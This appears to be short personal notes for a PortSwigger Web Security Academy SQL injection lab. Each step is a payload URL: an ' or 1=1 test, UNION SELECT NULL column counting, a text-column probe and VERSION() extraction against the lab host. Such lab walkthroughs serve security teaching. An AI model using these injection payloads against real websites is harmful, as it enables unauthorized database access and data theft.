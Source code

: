 https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft

test
```
https://0a7e003704f74f188135f708004900b7.web-security-academy.net/filter?category=' or 1 = 1 -- abc
```
find number of column
```
https://0a7e003704f74f188135f708004900b7.web-security-academy.net/filter?category=' UNION SELECT NULL, NULL -- abc
```
find text column
```
https://0a7e003704f74f188135f708004900b7.web-security-academy.net/filter?category=' UNION SELECT 'a', NULL -- abc
```
try to find version
```
https://0a7e003704f74f188135f708004900b7.web-security-academy.net/filter?category=' UNION SELECT VERSION(), NULL -- abc
```

